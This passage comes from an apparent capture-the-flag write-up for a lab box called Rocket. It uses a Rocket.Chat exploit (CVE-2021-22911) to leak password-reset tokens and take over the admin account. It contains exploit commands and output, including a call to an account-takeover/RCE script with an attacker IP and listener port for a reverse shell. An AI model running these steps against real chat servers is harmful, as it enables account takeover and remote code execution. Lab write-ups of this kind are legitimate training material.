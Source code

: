 ```bash
:~/Rocket# searchsploit -m linux/webapps/50108.py
```

```bash
:~/Rocket# pip3 install oathtool
```

```bash
:~/Rocket# python3 50108.py -u 'lili@mail.com' -a 'admin@rocket.thm' -t 'http://chat.rocket.thm'
[+] Resetting lili@mail.com password
[+] Password Reset Email Sent
Got: 9
Got: 9D
Got: 9DI
Got: 9DI7
Got: 9DI7u
Got: 9DI7uv
Got: 9DI7uvy
Got: 9DI7uvyd
Got: 9DI7uvyd0
Got: 9DI7uvyd0EJ
Got: 9DI7uvyd0EJW
Got: 9DI7uvyd0EJWJ
Got: 9DI7uvyd0EJWJ
Got: 9DI7uvyd0EJWJn
Got: 9DI7uvyd0EJWJnz
Got: 9DI7uvyd0EJWJnzg
Got: 9DI7uvyd0EJWJnzgE
Got: 9DI7uvyd0EJWJnzgE-
Got: 9DI7uvyd0EJWJnzgE-6
Got: 9DI7uvyd0EJWJnzgE-6W
Got: 9DI7uvyd0EJWJnzgE-6Ww
Got: 9DI7uvyd0EJWJnzgE-6Ww9
Got: 9DI7uvyd0EJWJnzgE-6Wx9X
Got: 9DI7uvyd0EJWJnzgE-6Wx9X3
...
```

<p align="center"><code>50108.py</code> considers 2FA secret key and in our study case admin is not protected by 2FA.<br>So I execute another script<br>
https://github.com/optionalCTF/Rocket.Chat-Automated-Account-Takeover-RCE-CVE-2021-22911</p>

```bash
:~/Rocket# python3 exploit.py -u 'lili@mail.com' -a 'admin@rocket.thm' -t 'http://chat.rocket.thm' -i 10.201.124.55 -p 9001
[+] Resetting admin  password
[+] Password Reset Email Sent
Got: e
Got: ev
Got: evG
Got: evGs
Got: evGsC
Got: evGsCx
Got: evGsCxs
Got: evGsCxsk
Got: evGsCxsk2
Got: evGsCxsk2k
Got: evGsCxsk2kL
Got: evGsCxsk2kLD
Got: evGsCxsk2kLD0
Got: evGsCxsk2kLD04
Got: evGsCxsk2kLD04F
Got: evGsCxsk2kLD04FY
Got: evGsCxsk2kLD04FY-
Got: evGsCxsk2kLD04FY-L
Got: evGsCxsk2kLD04FY-LP
```